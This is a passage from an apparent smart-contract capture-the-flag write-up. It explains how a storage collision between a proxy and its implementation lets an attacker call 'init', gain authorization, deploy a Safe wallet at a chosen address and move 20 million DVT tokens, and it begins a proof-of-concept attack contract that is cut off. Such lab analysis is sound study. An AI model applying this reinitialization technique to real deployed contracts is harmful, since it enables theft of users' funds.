 ```solidity
    }

    ...
}
```

Meanwhile, in the `TransparentProxy` contract, the first storage slot is occupied by the `upgrader` variable:

```solidity
contract TransparentProxy is ERC1967Proxy {
    address public upgrader = msg.sender;

    constructor(address _logic, bytes memory _data) ERC1967Proxy(_logic, _data) {
        ERC1967Utils.changeAdmin(msg.sender);
    }
}
```

There is a clear storage collision between the proxy contract and the implementation contract. As a result, we can exploit this by calling the `init` function through the proxy contract, allowing us to set ourselves as an authorized address.

Once we have authorization, we can call the `drop` function using the `salt` value we previously calculated to deploy the Safe wallet at 0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b. Since the user owns the deployed wallet, and we have access to the user’s private key, we can move the 20 million DVT tokens from the `Safe` wallet to the user’s address by calling the `execTransaction` function.

Note: Before executing the `execTransaction` function, the transaction hash must be signed with the user’s private key. However, since the Safe wallet is not yet deployed, we cannot use the `getTransactionHash()` function to get the transaction hash. Instead, we must calculate the transaction hash manually.

### Attack steps:

1. Determine the lost nonce required to deploy the `Safe` wallet at `0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b`.
2. Manually calculate the transaction hash, as the Safe wallet is not yet deployed for now.
3. Sign the transaction hash using the user's private key. The resulting signature will be used in step 6.
4. Call the `drop` function in the `WalletDeployer` contract to deploy a `Safe` wallet at `0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b`.
5. Transfer the reward token to `ward` address
6. Use the signature to send a transaction, rescuing the 20 million DVT tokens to the user address.

## PoC test case

### Attack contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {Safe, Enum} from "@safe-global/safe-smart-account/contracts/Safe.sol";

import {AuthorizerUpgradeable} from "./AuthorizerUpgradeable.sol";
import {WalletDeployer} from "./WalletDeployer.sol";

contract AttackWalletDeployer {
    address private constant USER = 0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D;
    address private constant USER_DEPOSIT_ADDRESS = 0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b;
    address private constant WARD = 0x89305C9663472C41251FBC479bCd3DE7553A7EB1;
    uint256 private constant INITIAL_WALLET_DEPLOYER_TOKEN_BALANCE = 1 ether;
    uint256 private constant DEPOSIT_TOKEN_AMOUNT = 20_000_000e18;

```